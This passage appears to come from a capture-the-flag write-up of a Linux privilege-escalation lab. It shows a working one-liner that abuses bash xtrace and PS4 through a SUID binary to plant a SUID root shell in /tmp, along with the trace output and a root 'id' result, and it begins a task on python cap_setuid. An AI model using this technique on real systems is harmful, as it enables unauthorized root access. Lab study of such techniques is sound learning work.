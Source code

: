We can exploit this with the single command : 

```console
TCM@debian:~$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
cp: cannot create regular file `/tmp/bash': Permission denied
/usr/local/bin/suid-env2
/usr/sbin/service apache2 start
basename /usr/sbin/service
VERSION='service ver. 0.91-ubuntu1'
basename /usr/sbin/service
USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
SERVICE=
ACTION=
SERVICEDIR=/etc/init.d
OPTIONS=
'[' 2 -eq 0 ']'
cd /
'[' 2 -gt 0 ']'
case "${1}" in
'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
'[' 2 -eq 2 -a start = --full-restart ']'
'[' -z '' ']'
SERVICE=apache2
shift
'[' 1 -gt 0 ']'
case "${1}" in
'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
'[' 1 -eq 2 -a '' = --full-restart ']'
'[' -z apache2 ']'
'[' -z '' ']'
ACTION=start
shift
'[' 0 -gt 0 ']'
'[' -r /etc/init/apache2.conf ']'
'[' -x /etc/init.d/apache2 ']'
exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2httpd (pid 1686) already running
.
cp: cannot create regular file `/tmp/bash': Permission denied
set +x
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# 
```
{: .nolineno }

Answer : /usr/sbin/service apache2 start

## TASK 15 : Privilege Escalation - Capabilities
### Click 'Completed' once you have successfully elevated the machine 
We have the capability "cap_setuid" set on the value "/usr/bin/python2.6" :

